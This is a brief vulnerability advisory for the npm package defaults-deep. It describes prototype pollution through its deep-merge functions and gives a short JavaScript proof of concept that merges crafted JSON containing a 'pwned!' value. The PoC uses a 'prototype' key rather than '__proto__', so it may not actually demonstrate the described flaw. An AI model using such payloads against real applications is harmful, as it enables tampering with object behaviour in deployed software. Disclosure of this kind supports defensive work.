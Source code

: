 # Overview

`defaults-deep` is a like extend but recursively copies only the missing properties/values to the target object.

Affected versions of this package are vulnerable to Prototype Pollution. Affected versions of this package are vulnerable to Prototype Pollution via merging functions. These functions allows a malicious user to modify the prototype of Object via `__proto__`, causing the addition or modification of an existing property that will exist on all objects.


# Proof of Concept
```js
var defaults_deep = require('defaults-deep');

var a = {};
var obj = defaults_deep(a, JSON.parse('{ "injectedProp": "hi", "prototype" : { "status" : "pwned!" } }'));

console.log(obj.prototype.status);
```
